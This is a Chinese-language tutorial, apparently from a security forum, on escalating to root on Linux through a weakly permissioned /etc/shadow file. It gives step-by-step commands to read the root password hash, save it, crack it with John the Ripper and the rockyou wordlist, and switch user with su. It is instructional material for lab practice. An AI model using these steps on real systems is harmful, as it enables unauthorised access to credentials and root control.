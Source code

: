 针对/etc/shadow 文件
----------------

`/etc/shadow`文件包含用户密码哈希值，默认情况下，除root用户外，任何用户都无法读取。

- 思路一：  
    如果我们能够读取 /etc/shadow 文件的内容，我们也许能够破解根用户的密码哈希。
- 思路二：  
    如果我们能够修改/etc/shadow文件，我们可以用我们所知道的密码哈希替换root用户的密码哈希

### 实操一、

#### 1.检查权限 /etc/shadow 文件

```php
ls -l /etc/shadow 
```

![image-20210630140751442](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b5156bd26be5999ed9359824e57161acc9792b58.png)

#### 2.提取root用户的密码哈希

```php
head -n 1 /etc/shadow
```

![image-20210630140948488](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c11309c1de294878fdba5d438b7038fe5f75b2aa.png)

```php
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```

#### 3.将密码哈希保存在文件中

```php
echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > 'hash.txt'
```

![image-20210630141431879](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0f98570457a031ecaa2e5624ac3d6df8db9ef9fe.png)

#### 4.使用开膛手破解密码哈希

```php
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![image-20210630141447898](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-29948fb5eab617c9616cefb0e9d3efafa392b7b9.png)

#### 5.使用su 命令切换到root用户

```php
su
```

![image-20210630141653620](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4ecf12356b2c8b3bcb3558dc568e660350133940.png)
